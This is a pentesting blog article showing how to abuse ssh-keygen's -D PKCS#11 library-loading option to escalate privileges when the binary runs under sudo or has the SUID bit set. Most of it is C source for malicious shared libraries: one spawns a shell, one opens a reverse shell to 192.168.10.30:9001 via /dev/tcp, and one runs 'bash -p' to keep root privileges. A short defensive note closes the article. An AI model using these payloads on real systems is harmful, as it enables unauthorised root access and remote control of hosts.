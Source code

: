 ```yaml
---
title: "Abusing ssh-keygen"
summary: "SSH-Keygen is a tool that allows you to create and manage SSH keys, this tool is present in most UNIX systems today as a tool to facilitate the management of SSH keys.\n\nIn this article we will explore some methods to abuse this tool with certain configurations as a method of persistence or privilege escalation on the system."
date: 2024-11-17
tags: 
    - Cybersecurity
    - Pentesting
    - SSH
    - Linux
    - SUID 
    - Persistence
lang: en
---
```


# Abusing ssh-keygen

SSH-Keygen is a tool that allows you to create and manage SSH keys, this tool is present in most UNIX systems today as a tool to facilitate the management of SSH keys.

In this article we will explore some methods to abuse this tool with certain configurations as a method of persistence or privilege escalation on the system.

<!-- more -->

In particular, we will abuse a specific functionality of this binary that allows the loading of public keys from a card reader library, this option is the **-D** parameter, its use is as follows: 

```bash
ssh-keygen -D ./lib.so
```

## How to generate the payload

Now that we've explained how to use this function, let's look in more detail at how to generate a loadable payload, for which we'll first need to obtain a version of pkcs11.h . This header file is where we define the data types needed for the function of our library that will call ssh-keygen when using the **-D** parameter. 

In our case, we will go to the Open Smart Card repository and download the version we need from the following URL:

[GitHub - PKCS11](https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h){:target="_blank"}

With this file we will proceed to write a small program in C with the necessary structure to be executed by ssh-keygen, in our case this program will spawn a bash shell.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Once compiled we can load it as a library as indicated in the introduction. 

## Profit

### Case 1: Sudo SSH-Keygen

Let's take advantage of a scenario where our user has permissions to execute the ssh-keygen command as root.

```bash
Matching Defaults entries for pnavas on test:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/snap/bin,
    use_pty

User pnavas may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /usr/bin/ssh-keygen
```

In this case, instead of using a simple bash call, we will load a reverse shell.

```c
#include ‘pkcs11.h’
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = ‘/bin/bash’;
        char *args[] = {cmd, ‘-c’ , ‘bash -i >& /dev/tcp/192.168.10.30/9001 0>&1’, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror(‘fork’);
        return 1;
    }

    return CKR_OK;
}
```

As a result, when we load it, we will get a root connection in our listener, we could modify it to run a shell simply as in the example in the theory section 

### Case 2: SSH Keygen SUID

In this scenario we are going to exploit a slightly less common scenario where ssh-keygen has the SUID bit set, in this case to keep the SUID privileges we need to change the library code a bit so that the shell keeps the privileges

```c
#include ‘pkcs11.h’
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = ‘/bin/bash’;
        char *args[] = {cmd, ‘-p’, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror(‘fork’);
        return 1;
    }

    return CKR_OK;
}
```

Once compiled, we can run the command to load the library and get a shell with the necessary privileges.

## Final Thoughts

As demonstrated, ssh-keygen is a powerful tool that, when misconfigured or misused, can become a significant security risk. The scenarios presented in this article highlight the importance of properly configuring and restricting access to binaries with elevated privileges.

By understanding and proactively managing the capabilities and risks associated with common tools like ssh-keygen, administrators can ensure the integrity and security of their systems. 

!!! note
    Always adopt the principle of least privilege and conduct regular security audits to minimize attack surfaces.

Stay safe. Stay smart. Stay secure.

---
